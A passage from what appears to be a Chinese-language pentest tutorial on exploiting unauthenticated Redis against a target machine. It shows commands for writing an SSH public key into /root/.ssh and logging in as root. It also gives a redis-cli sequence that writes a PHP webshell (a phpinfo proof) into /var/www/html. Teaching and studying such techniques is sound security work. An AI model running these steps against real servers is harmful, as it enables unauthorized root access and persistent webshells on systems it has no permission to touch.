 远程登录到靶机 redis 数据库，并使用`CONFIG GET dir`命令得到 redis 备份的路径：

[![](assets/1702372985-d778cf2b0db9a6f2c836c572dc610942.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/15.png)

更改 redis 备份路径为 ssh 公钥存放目录（一般默认为`/root/.ssh`）：

[![](assets/1702372985-9f6b483f68d61220babbee4a78fb2df2.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/16.png)

此时通过 ssh 连接到靶机

```bash
ssh -i id_rsa root@<ip>
```

[![](assets/1702372985-63fc3f261446f195d201647cadea8d7c.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/17.png)

### [](#4-%E5%88%A9%E7%94%A8redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99-Webshell "4.利用redis 未授权写 Webshell")4.利用 redis 未授权写 Webshell[](#4-%E5%88%A9%E7%94%A8redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99-Webshell)

利用前提：

-   靶机 redis 链接未授权，在攻击机上能用`redis-cli`连上
-   当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell

此时我们需要知道目标的 web 路径，示例写入的是 apache 的默认安装路径

```bash
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```
